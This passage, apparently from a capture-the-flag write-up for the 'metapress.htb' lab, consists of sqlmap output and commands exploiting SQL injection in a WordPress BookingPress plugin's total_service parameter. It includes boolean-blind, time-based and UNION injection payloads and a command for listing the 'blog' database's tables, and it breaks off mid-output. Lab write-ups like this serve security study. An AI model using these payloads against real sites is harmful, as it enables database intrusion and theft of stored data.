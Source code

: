 ```

[*] starting @ 10:45:16 /2023-02-13/

[10:45:16] [INFO] resuming back-end DBMS 'mysql' 
[10:45:16] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: total_service (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: action=bookingpress_front_get_category_services&_wpnonce=78d9c3d9f2&category_id=1&total_service=1) AND 1179=1179 AND (5714=5714

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: action=bookingpress_front_get_category_services&_wpnonce=78d9c3d9f2&category_id=1&total_service=1) AND (SELECT 3708 FROM (SELECT(SLEEP(5)))gLML) AND (2888=2888

    Type: UNION query
    Title: Generic UNION query (NULL) - 9 columns
    Payload: action=bookingpress_front_get_category_services&_wpnonce=78d9c3d9f2&category_id=1&total_service=1) UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x7162717171,0x70536f744a6c56535468795050594841454258666b4a7a7257675a495659666d5a6b595466697348,0x71787a7671),NULL,NULL,NULL,NULL-- -
---
[10:45:17] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.0.24, Nginx 1.18.0
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[10:45:17] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/metapress.htb'

[*] ending @ 10:45:17 /2023-02-13/
```

Dumping tables in the Database `blog`

```
sqlmap -u http://metapress.htb/wp-admin/admin-ajax.php --data 'action=bookingpress_front_get_category_services&_wpnonce=78d9c3d9f2&category_id=1&total_service=1' -p total_service -D blog --tables
```

```
┌──(darshan㉿kali)-[~]
└─$ sqlmap -u http://metapress.htb/wp-admin/admin-ajax.php --data 'action=bookingpress_front_get_category_services&_wpnonce=78d9c3d9f2&category_id=1&total_service=1' -p total_service -D blog --tables
        ___
       __H__                                                                                                                                           
 ___ ___[)]_____ ___ ___  {1.7.2#stable}                                                                                                               
|_ -| . [,]     | .'| . |                                                                                                                              
|___|_  [(]_|_|_|__,|  _|                                                                                                                              
      |_|V...       |_|   https://sqlmap.org                                                                                                           

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:46:23 /2023-02-13/

[10:46:23] [INFO] resuming back-end DBMS 'mysql' 
[10:46:23] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
```